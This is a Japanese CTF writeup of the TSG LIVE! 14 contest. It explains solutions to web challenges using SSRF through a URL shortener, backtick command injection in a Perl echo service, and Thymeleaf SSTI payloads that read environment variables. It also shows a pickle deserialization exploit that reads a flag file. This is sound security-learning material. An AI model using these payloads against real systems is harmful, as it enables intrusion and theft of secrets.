 ```yaml
---
title: "TSG LIVE! 14 CTF writeup"
tags:
  - "CTF"
  - "writeup"
---
```


今回は東京大学TSGさんにお誘いいただき、TPCとしてオンサイトで参加させていただきました。
TSG LIVE! 14は五月祭の企画として行われ、そのコンテンツの一つとして2時間半のCTFが開催されました。その他にもコードゴルフや競技プログラミングなどの企画があるようです。

アーカイブはこちら（解説やインタビューがあります）

https://www.youtube.com/live/7Oxm6mKCIjw?si=HrOzfdgtfbOWBeq5

TPC側は9人で参加し、自分はweb問を担当したのでそれを中心に書いていこうと思います。

## web

### Shortnm [8 solves]

> URL短縮サービスを作りました。

<details>
  <summary>問題コード</summary>

```python title=flag/main.py
from fastapi import FastAPI, Request
from fastapi.responses import PlainTextResponse

app = FastAPI()

@app.get("/flag")
async def get_flag(request: Request):
    host = request.headers.get("host", "")
    if host == "flag:45654" and request.url.port == 45654:
        return PlainTextResponse("TSGLIVE{REDACTED}")
    return PlainTextResponse("Access denied", status_code=403)

```

```python title=app/main.py
from fastapi import FastAPI, Query, Request, Response
from fastapi.responses import RedirectResponse, HTMLResponse
from fastapi.templating import Jinja2Templates
import redis
import httpx
import string, random, os

app = FastAPI()
r = redis.Redis(host=os.getenv("REDIS_HOST", "localhost"), port=6379, decode_responses=True)
templates = Jinja2Templates(directory="templates")

def generate_id(length=12):
    return ''.join(random.choices(string.ascii_letters + string.digits, k=length))

@app.get("/", response_class=HTMLResponse)
async def index(request: Request):
    return templates.TemplateResponse("index.html", {"request": request})

@app.get("/shorten")
async def shorten(request: Request, url: str = Query(...), format: str = Query(None)):
    short_id = generate_id()
    r.set(short_id, url)
    
    base_url = str(request.base_url).rstrip("/")
    short_url = f"{base_url}/{short_id}"
    if (format == "json"):
        return {"shorturl": short_url}
    else:
        return templates.TemplateResponse("result.html", {"request": request, "short_url": short_url})

@app.get("/shortem")
async def shortem(request: Request, url: str = Query(...), format: str = Query(None)):
    short_id = generate_id()
    url = 'http://is.gd/create.php?format=json&url='+url
    async with httpx.AsyncClient(follow_redirects=True) as client:
        response = await client.get(url)
    url = response.json()["shorturl"]
    r.set(short_id, url)
    
    base_url = str(request.base_url).rstrip("/")
    short_url = f"{base_url}/{short_id}"
    if (format == "json"):
        return {"shorturl": short_url}
    else:
        return templates.TemplateResponse("result.html", {"request": request, "short_url": short_url})

@app.get("/shortenm")
async def shortenm(url: str = Query(...)):
    short_id = generate_id() 
    url = 'http://localhost:8000/shortem?format=json&url='+url
    async with httpx.AsyncClient(follow_redirects=True) as client:
        response = await client.get(url)
    url = response.json()["shorturl"]
    r.set(short_id, url)
    
    short_id = generate_id() 
    async with httpx.AsyncClient(follow_redirects=True) as client:
        response = await client.get(url)    
    return Response(content=response.content,status_code=response.status_code,media_type=response.headers.get("content-type"))

@app.get("/{short_id}")
async def redirect(short_id: str):
    url = r.get(short_id)
    if url:
        return RedirectResponse(url)
    return HTMLResponse("URL not found", status_code=404)

```

</details>

短縮URLを作るサービス(短縮->target)、外部の短縮URLを使い作るサービス(短縮->is.gd->target)、２つ目に通したURLのレスポンスを表示するサービスが提供されている。
これを用いてローカルの`http://flag:45654/flag`を取得したい。

この問題に一番最初に取り掛かった。普通に３つ目のサービスに`http://flag:45654/flag`を入れると見れるんじゃねということで入力してみると`Internal Server Error`が発生。このURLを１つ目のものに通してできた`http://xx.xxx.xxx.xxx:xxxxx/1WmFoYkI93mj`を３つ目に入れてみても同じくエラーが発生。

ここでなぜだろうと唸っていると、チームメンバーがis.gdに目的のURLを入れると、次のようなエラーが発生することを特定してくれた。

```json showLineNumbers=false
{
  "errorcode": 1,
  "errormessage": "Sorry, due to widespread abuse, we no longer allow linking to hosts by IP address."
}
```

要は変なホスト名だったりIPアドレスはダメみたい。なので、これをbypassするために適当な短縮URLサービス(今回は一番上に出てきたX.gd)[^short]を使用し、ターゲットのURLを短縮URLに変換し、それを３つ目に入れるとフラグ獲得。[^hisoutei]

[^short]: ホントは外部のサービスじゃなくてローカルで立ててngrokとかでやったほうがいいと思うんですが、時間がかかるので今回はこちらを採用しました。
[^hisoutei]: 実は想定解ではないらしい https://x.com/iwashiira/status/1926228844471534076

`TSGLIVE{Cr3a71ng_7h3_SSRF_pr0bl3m_wa5_d1ff1cul7}`

### perling_perler [20 solves]

> perl

<details>
  <summary>問題コード</summary>

```perl title=app/app.perl
#!/usr/bin/env perl
use Dancer2;

set template => 'template_toolkit';

get '/' => sub {
    return template 'index';
};

post '/echo' => sub {
    my $str = body_parameters->get('str');
    unless (defined $str) {
        return "No input provided";
    }

    if ($str =~ /[&;<>|\(\)\$\ ]/) {
        return "<h2>echo:</h2><pre>Invalid Input</pre><a href='/'>Back</a>";
    };

    my $output = `echo $str`;

    return "<h2>echo:</h2><pre>$output</pre><a href='/'>Back</a>";
};

start;

```

</details>

perlを使ったechoをするだけのサービス。明らかなOSコマンドインジェクションが存在している。環境変数にフラグはあります。

続いてこちらの問題を見てみる。前述の通りOSコマンドインジェクションだが、`&;<>|()$`と空白が使用できない。
この場合`` `ls` ``のようにすれば任意のコマンドが実行できそうです。
しかしながらスペースが使用できないので`cat /proc/self/environ`などは実行できません。ここで方針が浮かばないでいたところ[^osoi]チームメンバーによると`env`コマンドなるものが存在すると...
そのまま別のチームメンバーが解いてくれました。

[^osoi]: この問題だけ以上に問題サーバーが重かったです。なぜ...?

`` `env` ``と入力して環境変数を取得し、そこにフラグが書いてあります。

```txt showLineNumbers=false
HOSTNAME=27f06e778cd4 HOME=/home/appuser PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin PWD=/app FLAG="TSGLIVE{5h3ll1ng_5h3ll3r}"
```

`TSGLIVE{5h3ll1ng_5h3ll3r}`

### iwi_deco_demo [3 solves]

> JavaのWebアプリはSpring Bootで書くといいらしいです。

<details>
  <summary>問題コード</summary>

```java title=src/main/java/iwi/demo/DemoController.java
package iwi.demo;

import java.time.LocalDateTime;
import java.time.format.DateTimeFormatter;

import org.apache.commons.lang3.StringUtils;
import org.springframework.web.bind.annotation.*;
import org.springframework.ui.Model;
import org.springframework.stereotype.Controller;

@Controller
public class DemoController {
  @GetMapping("/")
  public String home() {
    return "iwi_form";
  }

  @PostMapping("/profile")
  public String showProfile(@RequestParam("userId") String userId, Model model) {
    model.addAttribute("userId", userId);
    return "iwi_profile";
  }

  @GetMapping("/user/{userId}/settings")
  public String userSettings(@PathVariable String userId, Model model) {
    String lastLogin = LocalDateTime.now()
        .format(DateTimeFormatter.ofPattern("yyyy-MM-dd HH:mm:ss"));
    model.addAttribute("userId", userId);
    model.addAttribute("accountType", "Free");
    model.addAttribute("lastLogin", lastLogin);
    model.addAttribute("email", userId + "@example.com");
    model.addAttribute("description", "Please update your email.");
    return "iwi_user";
  }

  @PostMapping("/user/{userId}/settings")
  public String updateSettings(@PathVariable String userId,
      @RequestParam String email,
      @RequestParam String description,
      Model model) {
    String lastLogin = LocalDateTime.now()
        .format(DateTimeFormatter.ofPattern("yyyy-MM-dd HH:mm:ss"));

    if (StringUtils.isBlank(email)) {
      model.addAttribute("message", "Email must not be blank.");
      email = userId + "@example.com";
    }

    if (StringUtils.isBlank(description)) {
      model.addAttribute("message", "Description is required.");
      description = "Please update your email.";
    }

    model.addAttribute("userId", userId);
    model.addAttribute("accountType", "Free");
    model.addAttribute("lastLogin", lastLogin);

    model.addAttribute("email", email);
    model.addAttribute("description", description);
    model.addAttribute("message", "Updated your profile.");

    return "iwi_user";
  }
}

```

```html title=src/main/resources/templates/iwi_profile.html
<!DOCTYPE html>
<html xmlns:th="http://www.thymeleaf.org">

<head>
  <title>IWI-DECO Result</title>
  <style>
    body {
      font-family: sans-serif;
      max-width: 600px;
      margin: 2rem auto;
    }

    .profile-box {
      border: 1px solid #ccc;
      padding: 1rem;
      border-radius: 8px;
    }

    .profile-box h2 {
      margin-top: 0;
    }

    label {
      display: block;
      margin-top: 1rem;
    }
  </style>
</head>

<body>
  <h1>Hello, [[${userId}]]!</h1>
  <p>Click below to go to your settings:</p>
  <a th:href="@{'/user/__${userId}__/settings'}">Go to Settings</a>
</body>

</html>
```

```html title=src/main/resources/templates/iwi_user.html
<!DOCTYPE html>
<html xmlns:th="http://www.thymeleaf.org">

<head>
  <title>IWI-DECO</title>
  <style>
    body {
      font-family: sans-serif;
      max-width: 600px;
      margin: 2rem auto;
    }

    .profile-box {
      border: 1px solid #ccc;
      padding: 1rem;
      border-radius: 8px;
    }

    .profile-box h2 {
      margin-top: 0;
    }

    label {
      display: block;
      margin-top: 1rem;
    }

    input,
    textarea {
      width: 100%;
      padding: 0.5rem;
    }

    .readonly {
      background-color: #f5f5f5;
    }

    .msg {
      color: green;
      font-weight: bold;
    }
  </style>
</head>

<body>
  <h2>Settings for [[${userId}]]</h2>
  <div th:if="${message}" class="msg">[[${message}]]</div>

  <form th:action="@{/user/{id}/settings(id=${userId})}" method="post">
    <label>User ID:</label>
    <input type="text" th:value="${userId}" readonly class="readonly" />

    <label>Account Type:</label>
    <input type="text" th:value="${accountType}" readonly class="readonly" />

    <label>Last Login:</label>
    <input type="text" th:value="${lastLogin}" readonly class="readonly" />

    <label for="email">Email:</label>
    <input type="email" id="email" name="email" th:value="${email}" />

    <label for="description">Description:</label>
    <textarea id="description" name="description" rows="4" th:text="${description}"></textarea>

    <button type="submit" style="margin-top: 1rem;">Save</button>
  </form>
</body>

</html>

```

</details>

Javaのspring-bootを使用したサービスです。ユーザー名を入力したらそれのプロフィール画面に遷移でき、そこからプロフィール設定画面に遷移できます。

テンプレートを使用しているので、SSTIが濃厚かなと思いながら眺めていましたがJavaはあまり触ってこなかったので色々見ていました。

そこでチームメンバーからOGNLというキーワードが。調べてみるとspring-bootはThymeleaf[^Thymeleaf]を使用していて、そこでSSTIができそう。

[^Thymeleaf]: 読み方はタイムリーフらしい

https://blog.hamayanhamayan.com/entry/2021/12/20/215208

「Thymeleaf SSTI」で調べてみると、どうやらペイロードの一つに`'+${7*7}+'`というものがあるようで、これをサイトに入力しプロフィールから設定に遷移すると、userIdが`49`になりSSTIが成功しました。

https://github.blog/security/vulnerability-research/bypassing-ognl-sandboxes-for-fun-and-charities/

https://modzero.com/en/blog/spring_boot_ssti/

それよりも少し前にチームメンバーも同様のペイロードを確認していて、`"".getClass()`のようなやり方で環境変数を取得するペイロードをなんとか組み立てれないか試行錯誤しているようだったので、自分はThymeleafに環境変数を取得できる方法が存在していないかを調べてみることに。

「thymeleaf environment」で調べてみると、どうやら`${@environment.getProperty('property.key')}`のようなコードで環境変数を取得できるっぽい。[^hisoutei2]

[^hisoutei2]: おそらくこれは非想定解でもっと複雑なペイロードが期待されていたっぽい。 https://nanimokangaeteinai.hateblo.jp/entry/2025/05/24/153344#Web-428-iwi_deco_demo-3-solves

https://blog.tagbangers.co.jp/ja/2015/01/18/thymeleaf-environment-properties.html

```txt showLineNumbers=false
'+${@environment.getProperty("FLAG")}+'
```

これをUser IDに入れて同様にユーザー設定まで行くとフラグを獲得。

`TSGLIVE{5pr1ng_b007_5571_w17h_apach3_lang3_by_PARZEL}`

## その後

自分の担当分野であるweb問題がとき終わってからは残っている問題であるcryptoとpwnを眺めていたが、手も足も全くわからず。[^muzukasii]

[^muzukasii]: そりゃ難しい問題だけが残っているわけで...

そんな中チームメンバーがcyptoの問題に脆弱性を発見したようで。どうやらcryptoの後ろ２つの問題ではpickleが使用されていて、これを悪用することでフラグの値が抜けると！天才か？

<details>
  <summary>問題コード</summary>

```python title=problem.sage
#!/usr/bin/env sage 
from flag import flag

def sage_encode(obj):
    from sage.misc.persist import SagePickler
    from base64 import b64encode
    return b64encode(SagePickler.dumps(obj)).decode('ascii')

def sage_decode(enc_data):
    from base64 import b64decode
    import pickle
    return pickle.loads(b64decode(enc_data))

class Isogeny_decomp:
    def __init__(self,P,order_P = -1):
        if isinstance(P,list):
            for i in range(len(P)-1):
                assert P[i].codomain() == P[i+1].domain()
            self.isogenies = P[:]
            return
        if order_P == -1:
            order_P = P.order()
        self.isogenies = []
        for p,c in factor(order_P):
            for i in range(c):
                phi = P.curve().isogeny((order_P//p)*P)
                self.isogenies.append(phi)
                P = phi(P)
                order_P //= p
                if P == P.curve()((0,1,0)):
                    break
            if P == P.curve()((0,1,0)):
                break
    def __call__(self,P):
        for phi in self.isogenies:
            P = phi(P)
        return P
    def __mul__(self,other):
        assert other.isogenies[-1].codomain().j_invariant() == self.isogenies[0].domain().j_invariant()
        isom = other.isogenies[-1].codomain().isomorphism_to(self.isogenies[0].domain())
        return Isogeny_decomp(other.isogenies + [isom] + self.isogenies)
    def dual(self):
        ret = []
        for phi in self.isogenies:
            ret.append(phi.dual())
        ret.reverse()
        return Isogeny_decomp(ret)
    def domain(self):
        return self.isogenies[0].domain()
    def codomain(self):
        return self.isogenies[-1].codomain()

#SIKEp434
e2 = 0xD8
e3 = 0x89
p = 2**e2*3**e3-1
R.<x> = GF(p)[]
k.<i> = GF(p**2,modulus=x**2+1)

xQ30 = 0x00012E84_D7652558_E694BF84_C1FBDAAF_99B83B42_66C32EC6_5B10457B_CAF94C63_EB063681_E8B1E739_8C0B241C_19B9665F_DB9E1406_DA3D3846
xQ31 = 0x00000000
yQ30 = 0x00000000
yQ31 = 0x0000EBAA_A6C73127_1673BEEC_E467FD5E_D9CC29AB_564BDED7_BDEAA86D_D1E0FDDF_399EDCC9_B49C829E_F53C7D7A_35C3A074_5D73C424_FB4A5FD2
xP30 = 0x00008664_865EA7D8_16F03B31_E223C26D_406A2C6C_D0C3D667_466056AA_E85895EC_37368BFC_009DFAFC_B3D97E63_9F65E9E4_5F46573B_0637B7A9
xP31 = 0x00000000
yP30 = 0x00006AE5_15593E73_97609197_8DFBD70B_DA0DD6BC_AEEBFDD4_FB1E748D_DD9ED3FD_CF679726_C67A3B2C_C12B3980_5B32B612_E058A428_0764443B
yP31 = 0x00000000
xR30 = 0x0001CD28_597256D4_FFE7E002_E8787075_2A8F8A64_A1CC78B5_A2122074_783F51B4_FDE90E89_C48ED91A_8F4A0CCB_ACBFA7F5_1A89CE51_8A52B76C
xR31 = 0x00014707_3290D78D_D0CC8420_B1188187_D1A49DBF_A24F26AA_D46B2D9B_B547DBB6_F63A760E_CB0C2B20_BE52FB77_BD2776C3_D14BCBC4_04736AE4


xP3 = xP30+xP31*i
xQ3 = xQ30+xQ31*i
xR3 = xR30+xR31*i
yP3 = yP30+yP31*i
yQ3 = yQ30+yQ31*i

ec_start = EllipticCurve(k,[0,6,0,1,0])
P3 = ec_start((xP3,yP3))
Q3 = ec_start((xQ3,yQ3))

import secrets
sk3 = int(secrets.randbelow(int(3)**e3))
sp3 = P3+sk3*Q3

isogeny = Isogeny_decomp(sp3,3**e3)
E1 = isogeny.codomain()
import sys
print(E1,file=sys.stderr)

P = sage_decode(input("Enter a point: "))
print(sage_encode(isogeny(P).xy()))
P = sage_decode(input("Enter a next point: "))
print(sage_encode(isogeny(P).xy()))

user_sk = int(input("Enter your answer: "))
if user_sk == sk3:
    print("Correct")
    print(flag)
else:
    print("Incorrect")

```

</details>

なので実際にやってみる。pickleのexploitを用意し、

```python
import base64
import pickle

class Exploit:
  def __reduce__(self):
    return (
      eval,
      ("dict(print(open('./flag.py').read()),)",)
    )

data = base64.b64encode(pickle.dumps(Exploit())).decode('utf8')
print(f"data: {data}")
```

これを実行すると、

![実行結果](../../images/ctf/tsg-live-14/hisoutei3.png "実行結果")

フラグが取れてしまいました。web人間としてはこれは気づきたかった... 悔しい...

## まとめ

![リザルト画像](../../images/ctf/tsg-live-14/result.png "リザルト画像")

CTF初めて数ヶ月、初めてオンサイトのCTFに参加しましたが、わいわいできて非常に楽しかったです。招待してくださったTSGの皆様と、誘ってくれたチームメンバーに感謝！
イベントの結果としてはTSGに勝利し、3988ptで全体では２位という結果でした。１つでもフラグ取れれば良いかなーと思ってましたが２つも取れて結果に寄与できて良かったです。

終了後はメンバーと五月祭を回ったりしました。弊学とは違うところが多く新鮮でした。そして初対面の人とたくさん話せて非常に良かったです。

<blockquote class="twitter-tweet"><p lang="ja" dir="ltr">めん <a href="https://t.co/LokMHPEOOf">pic.twitter.com/LokMHPEOOf</a></p>&mdash; kasi (@kq5y__) <a href="https://twitter.com/kq5y__/status/1926222996248653873?ref_src=twsrc%5Etfw">May 24, 2025</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>
